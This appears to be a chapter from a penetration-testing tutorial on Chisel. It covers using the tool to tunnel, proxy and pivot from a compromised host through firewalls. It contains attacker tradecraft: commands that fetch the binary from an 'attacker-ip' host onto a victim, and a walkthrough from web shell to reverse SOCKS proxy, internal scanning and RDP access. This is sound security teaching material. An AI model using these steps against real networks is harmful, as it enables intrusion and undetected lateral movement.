


# 🔵 Chisel Tunneling

> **Level: 🟡 Intermediate**
> Master Chisel — the go-to tunneling tool when SSH isn't available.

---

## 📖 Table of Contents

1. [What is Chisel?](#-1-what-is-chisel)
2. [Installation & Setup](#-2-installation--setup)
3. [Chisel Architecture](#-3-chisel-architecture)
4. [Forward Proxy Mode](#-4-forward-proxy-mode)
5. [Reverse Proxy Mode](#-5-reverse-proxy-mode)
6. [SOCKS Proxy with Chisel](#-6-socks-proxy-with-chisel)
7. [Chisel Through Firewalls](#-7-chisel-through-firewalls)
8. [Chisel vs SSH Comparison](#-8-chisel-vs-ssh-comparison)
9. [Real-World Attack Scenarios](#-9-real-world-attack-scenarios)
10. [Troubleshooting](#-10-troubleshooting)

---

## 🧠 1. What is Chisel?

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.

### Why Chisel?

| Problem | How Chisel Solves It |
|---------|---------------------|
| No SSH on the target | Chisel doesn't need SSH |
| Firewall only allows HTTP/HTTPS | Chisel tunnels over HTTP |
| Need a SOCKS proxy quickly | Built-in SOCKS5 support |
| Single static binary needed | Works on Linux, Windows, macOS |
| No admin/root on target | Works as normal user |

### Key Features

- ✅ Single binary (no dependencies)
- ✅ Cross-platform (Linux, Windows, macOS)
- ✅ Encrypted communication (SSH over HTTP)
- ✅ Forward and reverse modes
- ✅ Built-in SOCKS5 proxy
- ✅ Bypasses firewalls that allow HTTP traffic
- ✅ Written in Go (fast, compiled)

---

## 📦 2. Installation & Setup

### Download Pre-built Binaries

```bash
# From GitHub releases
# https://github.com/jpillora/chisel/releases

# Linux (amd64)
wget https://github.com/jpillora/chisel/releases/latest/download/chisel_linux_amd64.gz
gunzip chisel_linux_amd64.gz
chmod +x chisel_linux_amd64
mv chisel_linux_amd64 chisel

# Windows (amd64)
# Download chisel_windows_amd64.gz from releases
```

### Build from Source

```bash
git clone https://github.com/jpillora/chisel.git
cd chisel
go build -o chisel
```

### Verify

```bash
./chisel --version
./chisel --help
```

### Transfer to Target

Use any file transfer method to get the chisel binary onto the compromised host:

```bash
# Via python HTTP server
python3 -m http.server 80
# On target:
wget http://attacker-ip/chisel
curl http://attacker-ip/chisel -o chisel
certutil -urlcache -split -f http://attacker-ip/chisel.exe chisel.exe  # Windows
```

---

## 🏗️ 3. Chisel Architecture

### Components

```
┌──────────────────────┐          ┌──────────────────────┐
│    CHISEL SERVER     │          │    CHISEL CLIENT      │
│   (Attacker Machine) │◄────────│   (Compromised Host)  │
│                      │   HTTP   │                       │
│  Listens for clients │  tunnel  │  Connects to server   │
│  Manages tunnels     │  (SSH    │  Creates tunnels      │
│                      │   inside │                       │
│                      │   HTTP)  │                       │
└──────────────────────┘          └──────────────────────┘
```

### How It Works



---

## ➡️ 4. Forward Proxy Mode

### What It Does

**Client connects TO the server.** Server can then access things through the client.

But more commonly: the **client** opens a tunnel so you can access internal services.

### Scenario

```
Attacker (10.0.0.5) → Compromised Host (10.0.0.20) → Internal Target (172.16.1.50:80)
```

### Step-by-Step

**Step 1: Start Chisel Server on Attacker**

```bash
# On attacker machine
chisel server --port 8000
```

**Step 2: Run Chisel Client on Compromised Host**

```bash
# On compromised host
chisel client 10.0.0.5:8000 8080:172.16.1.50:80
```

**Breakdown**:
| Part | Meaning |
|------|---------|
| `10.0.0.5:8000` | Connect to Chisel server (attacker) |
| `8080:172.16.1.50:80` | Open port 8080 on **server** side, forward to 172.16.1.50:80 |

**Step 3: Access Internal Service from Attacker**

```bash
curl http://localhost:8080
# Reaches 172.16.1.50:80 through the tunnel!
```

### Multiple Port Forwards

```bash
chisel client 10.0.0.5:8000 \
    8080:172.16.1.50:80 \
    3306:172.16.1.50:3306 \
    445:172.16.1.100:445
```

---

## ⬅️ 5. Reverse Proxy Mode

### What It Does

The client connects outbound to the server (bypassing firewalls), and the server can then define what ports get forwarded. The tunnel is **initiated by the victim** but controlled by the attacker.

### Why Reverse Mode?

| Situation | Use Reverse Mode |
|-----------|------------------|
| Firewall blocks inbound connections to victim | ✅ |
| Only outbound HTTP allowed from victim | ✅ |
| You compromised via web shell, no SSH | ✅ |
| Target is behind NAT | ✅ |

### Scenario

```
Attacker (10.0.0.5) ← Reverse Connection ← Compromised Host (10.0.0.20)
                                                      ↓
                                            Internal Target (172.16.1.50:80)
```

### Step-by-Step

**Step 1: Start Chisel Server with `--reverse` flag**

```bash
# On attacker
chisel server --port 8000 --reverse
```

> ⚠️ The `--reverse` flag is **required** on the server to allow reverse tunnels.

**Step 2: Run Chisel Client on Compromised Host**

```bash
# On compromised host
chisel client 10.0.0.5:8000 R:8080:172.16.1.50:80
```

**Breakdown**:
| Part | Meaning |
|------|---------|
| `R:` | **Reverse** mode — open port on SERVER side |
| `8080` | Port to open on the attacker machine |
| `172.16.1.50:80` | Where to forward traffic (from client's perspective) |

**Step 3: Access Internal Service from Attacker**

```bash
curl http://localhost:8080
# Reaches internal target through reverse tunnel!
```

### Flow Diagram



---

## 🧦 6. SOCKS Proxy with Chisel

### The Most Powerful Chisel Feature

Instead of forwarding specific ports, create a **SOCKS proxy** to access any host/port through the tunnel.

### Forward SOCKS

```bash
# Server (attacker)
chisel server --port 8000

# Client (compromised host)
chisel client 10.0.0.5:8000 socks
```

The SOCKS proxy is now on `localhost:1080` (default) on the **server** (attacker) side.

### Reverse SOCKS (Most Common in Pentesting)

```bash
# Server (attacker) — must have --reverse
chisel server --port 8000 --reverse

# Client (compromised host)
chisel client 10.0.0.5:8000 R:socks
```

Now SOCKS proxy is on `localhost:1080` on the **attacker machine**.

### Using the SOCKS Proxy

Edit `/etc/proxychains4.conf`:

```
[ProxyList]
socks5 127.0.0.1 1080
```

Then use proxychains:

```bash
proxychains nmap -sT -Pn 172.16.1.0/24
proxychains curl http://172.16.1.50
proxychains smbclient //172.16.1.50/share
```

### Custom SOCKS Port

```bash
# Forward SOCKS on port 9050
chisel client 10.0.0.5:8000 9050:socks

# Reverse SOCKS on port 9050
chisel client 10.0.0.5:8000 R:9050:socks
```

---

## 🔥 7. Chisel Through Firewalls

### Why Chisel Bypasses Firewalls

Chisel communicates over **HTTP** (port 80 or 443). Most firewalls allow outbound HTTP/HTTPS.

### Running Chisel on Standard HTTP Port

```bash
# Server on port 80 (looks like normal web traffic)
chisel server --port 80 --reverse

# Or port 443 (HTTPS)
chisel server --port 443 --reverse
```

### Using Chisel Over HTTPS

```bash
# Generate self-signed cert
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# Server with TLS
chisel server --port 443 --reverse --tls-key key.pem --tls-cert cert.pem

# Client
chisel client --tls-skip-verify https://10.0.0.5:443 R:socks
```

### Authentication

```bash
# Server with auth
chisel server --port 8000 --reverse --auth user:password

# Client with auth
chisel client --auth user:password 10.0.0.5:8000 R:socks
```

---

## ⚖️ 8. Chisel vs SSH Comparison

| Feature | SSH Tunneling | Chisel |
|---------|--------------|--------|
| **Requires SSH on target** | ✅ Yes | ❌ No |
| **Works through HTTP firewalls** | ❌ No | ✅ Yes |
| **Single binary** | N/A (built-in) | ✅ Yes |
| **SOCKS proxy** | `-D` flag | Built-in `socks` |
| **Reverse tunneling** | `-R` flag | `R:` prefix |
| **Encryption** | SSH | SSH over HTTP |
| **Root needed** | No (for high ports) | No |
| **Cross-platform** | Linux mainly | Linux, Windows, macOS |
| **Speed** | Fast | Fast |
| **Stealth** | Looks like SSH traffic | Can look like HTTP traffic |
| **Detection** | SSH session detected | Harder to detect |

### When to Use Chisel Over SSH

- 🔹 No SSH access on target
- 🔹 Target behind firewall that allows only HTTP/HTTPS
- 🔹 Need to tunnel from a Windows host
- 🔹 Want a single binary without dependencies
- 🔹 Working from a web shell (no interactive session)

---

## 🎯 9. Real-World Attack Scenarios

### Scenario 1: Web Shell to Internal Network

```
1. Exploit web app → Get web shell
2. Upload chisel binary via web shell
3. Start chisel client: R:socks
4. Use SOCKS proxy to scan internal network
5. Find internal services and pivot further
```

```bash
# Attacker
chisel server --port 443 --reverse

# Via web shell on victim
./chisel client 10.0.0.5:443 R:1080:socks &

# Attacker scans internal network
proxychains nmap -sT -Pn -p 22,80,445,3389 10.10.10.0/24
```

### Scenario 2: Specific Service Access

```bash
# Access internal RDP
# Attacker
chisel server --port 8000 --reverse

# Compromised host
chisel client 10.0.0.5:8000 R:3389:172.16.1.50:3389

# Attacker connects to RDP
xfreerdp /v:localhost:3389 /u:admin /p:password
```

### Scenario 3: Multiple Tunnels at Once

```bash
# Client with multiple forwards
chisel client 10.0.0.5:8000 \
    R:8080:172.16.1.50:80 \
    R:445:172.16.1.50:445 \
    R:3306:172.16.1.100:3306 \
    R:socks
```

---

## 🔧 10. Troubleshooting

### Common Issues

| Issue | Cause | Solution |
|-------|-------|----------|
| "Connection refused" | Server not running / wrong port | Check `chisel server` is running |
| Client can't connect outbound | Firewall blocking the port | Use port 80 or 443 |
| SOCKS proxy not working | Wrong proxychains config | Verify port matches (default 1080) |
| "Remote not allowed" | Server started without `--reverse` | Add `--reverse` flag |
| Binary won't run on target | Wrong architecture | Download correct binary (amd64, arm, etc.) |
| Tunnel drops | Network instability | Add `--keepalive 60s` to client |

### Useful Commands

```bash
# Check if chisel is running
ps aux | grep chisel               # Linux
tasklist | findstr chisel           # Windows

# Kill chisel
pkill chisel                       # Linux
taskkill /IM chisel.exe /F         # Windows

# Verbose output for debugging
chisel server --port 8000 --reverse -v
chisel client -v 10.0.0.5:8000 R:socks

# Check SOCKS proxy is listening
ss -tlnp | grep 1080
netstat -an | grep 1080
```

---

## 📋 Chisel Quick Reference

| Command | Purpose |
|---------|---------|
| `chisel server -p 8000` | Start server (forward mode) |
| `chisel server -p 8000 --reverse` | Start server (allow reverse) |
| `chisel client IP:PORT LOCAL:REMOTE:RPORT` | Forward tunnel |
| `chisel client IP:PORT R:LOCAL:REMOTE:RPORT` | Reverse tunnel |
| `chisel client IP:PORT socks` | Forward SOCKS proxy |
| `chisel client IP:PORT R:socks` | Reverse SOCKS proxy |
| `chisel client IP:PORT R:1080:socks` | Reverse SOCKS on custom port |

---

## ⏮️ [← SSH Tunneling](./02_SSH_tunneling_deep_dive.md) | ⏭️ [Ligolo-ng Mastery →](./04_ligolo_ng_mastery.md)
